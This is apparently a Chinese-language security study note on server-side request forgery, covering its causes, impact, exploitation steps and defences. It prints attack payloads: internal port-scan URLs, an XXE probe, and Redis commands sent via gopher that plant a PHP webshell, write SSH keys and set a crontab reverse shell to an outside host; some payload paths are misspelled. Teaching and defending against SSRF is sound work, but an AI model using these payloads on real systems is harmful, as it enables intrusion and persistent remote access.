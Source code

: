 ## SSRF漏洞原理
服务端请求伪造(Server-side Request Forge)是一种由攻击者构造形成,由服务端发起请求的安全漏洞。</br>
一般SSRF攻击目标是从外网无法访问的內部系统</br>
漏洞位置：</br>
（1）分享：通过url地址分享网页内容</br>
（2）转码服务</br>
（3）在线翻译</br>
（4）图片加载与下载：通过URL地址加载或下载图片</br>
（5）图片、文章收藏功能</br>
（6）未公开的api实现以及其他调用URL的功能</br>
（7）从URL关键字中寻找

## SSRF漏洞危害
（1）端口扫描</br>
（2）内网web应用指纹识别</br>
（3）攻击内网web应用</br>
（4）利用file协议读取本地文件等

## SSRF漏洞利用
### （1）相关危险函数
SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取的函数。以PHP为例，涉及到的函数有：</br>
file_get_content()——把文件写入字符串，当url是内网文件的时候，会先去把这个文件的内容读出来再写入，导致了文件读取</br>
fsockopen()——打开一个网络连接，或者Unix套接字连接</br>
curl_exec()——利用方式很多，常见的是通过file，dict，gopher三个协议来进行渗透</br>
![image](https://github.com/n4ttt/Sec-Note/assets/32692640/ec4272e5-24d2-4e62-b6a0-a961d16ee00f)

### （2）获取正常文件
提交参数：http://192.168.11.11/ssrf/?url=www.aaa.com/robots.txt</br>
返回robots.txt的内容。

### （3）端口扫描
当设置参数URL为内网地址时，则会泄露内网信息，比如内网的某个服务是否开放；</br>
提交参数：?url=192.168.11.100:3306</br>
返回结果：页面报错。端口没有开放</br>
提交参数：?url=192.168.11.100:22</br>
返回结果：SSH-2.0-OpenSSh_7.8pl Debian-1。端口开放。

### （4）内网web应用指纹识别
大多数web应用框架都有一些独特的文件和目录，通过这些文件可以识别出应用的类型，甚至详细的版本。根据这些信息就可以针对性的搜集漏洞进行攻击。</br>
例如：判断phpMyAdmin是否安装以及详细版本</br>
提交参数：?url=http://192.168.11.200/phpMyAdmin/README</br>
页面可能返回相应信息。

### （5）SSRF结合XXE漏洞利用（端口探测为例）
由于XML实体注入攻击可以利用http://协议，可以利用这点去探查内网，进行SSRF攻击。根据响应时长/长度判断端口是否开。</br>
XML内容：
```
<?xml version=”1.0” encoding=”utf-8”?>
<!DOCTYPE note[<!ENTITY xxe SYSTEM “http://192.168.11.100:3306/test/”>]>
<name>&xxe</name>
```

### （6）Redis配合gopher协议进行SSRF
gopher协议极大的拓宽了SSRF的攻击面。利用此协议可以攻击内网 的redis、ftp等，也可以发送GET、POST请求。</br>
利用条件：能未授权或者通过弱口令认证访问到redis服务器。</br>
**redis数据库特点：** </br>
未授权访问。在访问redis服务器时，不需要提供用户名和密码；</br>
具有root权限；</br>
可读写文件；</br>
默认端口：6379</br>
**redis常见的SSRF攻击方式：** </br>
（1）绝对路径写webshell</br>
前提：需要知道web的绝对路径</br>
构造payload（构造redis命令）：
```
flushall
set 1 ‘<?php eval($_POST[‘cmd’]);?>’
config set dbfilename shell.php
save
```
（2）写SSH公钥</br>
前提：目标机开启SSH服务</br>
说明：如果ssh目录存在，则直接写入~/.ssh/authorized_keys；如果不存在，则可以利用crontab创建该目录</br>
方法：本地生成RSA公钥私钥对，将公钥通过redis写入.ssh目录下的authorized_keys文件下，实现ssh免密登录。</br>
构造payload（构造redis命令）：
```
flushall
set 1 ‘生成的RSA公钥私钥对’
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```
（3）利用contrab计划任务反弹shell</br>
前提：这个方法只能在centos上使用，Ubuntu不能用</br>
contrab定时文件位置：</br>
![image](https://github.com/n4ttt/Sec-Note/assets/32692640/8a7f6ff8-8834-472d-be8e-7a5cc5af8053)

构造payload：
```
flushall
set 1 ‘\n\n*/1****bash -I >& /dev/tcp/192.168.11.100/2333 0>&1\n\n’
config set dir /var//spool/corn/
config set dbfilename root
save
```
## SSRF漏洞防御
（1）限制请求的端口只能为web端口</br>
（2）设置白名单，或限制内网IP，以防止对内网进行攻击</br>
（3）禁止30X跳转</br>
（4）屏蔽返回的详细信息
